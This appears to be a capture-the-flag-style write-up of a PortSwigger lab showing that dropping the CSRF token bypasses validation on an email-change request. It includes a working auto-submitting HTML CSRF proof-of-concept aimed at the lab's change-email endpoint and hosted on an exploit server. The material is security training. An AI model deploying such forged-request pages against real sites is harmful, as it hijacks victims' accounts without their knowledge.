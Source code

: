 ![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/ea499592-be2c-462f-b366-833c9e2edae5)

### Solution

update the email adress and go to the http request

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/347d736f-1fa2-4cb0-a5b1-3960c17b0efb)

if we change/modify the csrf token, we can see that it gets rejected

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/36159186-640a-484e-8379-c73c0335ef99)

but removing it completely and it gets accepted

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/0b57df33-a343-4454-8b8b-58f1ab118ff3)

now right click and generate the csrf poc

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/4f69dfcd-dd6b-4e61-862e-7f16002c329c)

payload

```js
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aee00ad0344619d84e8749e007400b9.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="rahul&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

now store it in body of exploit server and view it.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/aa251f2a-53e0-4c2b-8f43-300e59e25c8b)

now deliver to solve the lab

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/e2e4f8db-7deb-4f57-9113-7d6dee065eee)
